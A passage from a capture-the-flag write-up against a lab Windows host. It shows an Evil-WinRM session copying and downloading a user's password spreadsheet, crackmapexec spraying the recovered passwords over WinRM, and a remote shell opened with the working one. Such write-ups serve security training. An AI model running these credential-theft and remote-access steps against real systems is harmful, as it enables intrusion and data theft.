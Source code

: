 There’s a single file on the desktop. I’ll copy it to `programdata` and download it:

```
*Evil-WinRM* PS C:\programdata> echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1  
*Evil-WinRM* PS C:\programdata> ls Engines.xls

    Directory: C:\programdata

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls
*Evil-WinRM* PS C:\programdata> download C:\programdata\Engines.xls Engines.xls
Info: Downloading C:\programdata\Engines.xls to Engines.xls

Info: Download successful!

```

### Engines.xls

The Excel file opens in LibreOffice `Calc` in my Linux VM, and it includes a list of machines and passwords for maria:

![image-20220228064648956](https://0xdfimages.gitlab.io/img/image-20220228064648956.png)

### WinRM

[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) can quickly test each password for maria. I’ll save them into a text time, and run it:

```

oxdf@hacky$ crackmapexec winrm 10.10.11.132 -u maria -p maria-pass 
SMB         10.10.11.132    5985   NONE             [*] None (name:10.10.11.132) (domain:None)
HTTP        10.10.11.132    5985   NONE             [*] http://10.10.11.132:5985/wsman
WINRM       10.10.11.132    5985   NONE             [-] None\maria:d34gb8@
WINRM       10.10.11.132    5985   NONE             [-] None\maria:0de_434_d545
WINRM       10.10.11.132    5985   NONE             [+] None\maria:W3llcr4ft3d_4cls (Pwn3d!)

```

The last one works over WinRM for maria:

```

oxdf@hacky$ evil-winrm -i 10.10.11.132 -u maria -p 'W3llcr4ft3d_4cls'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents>

```
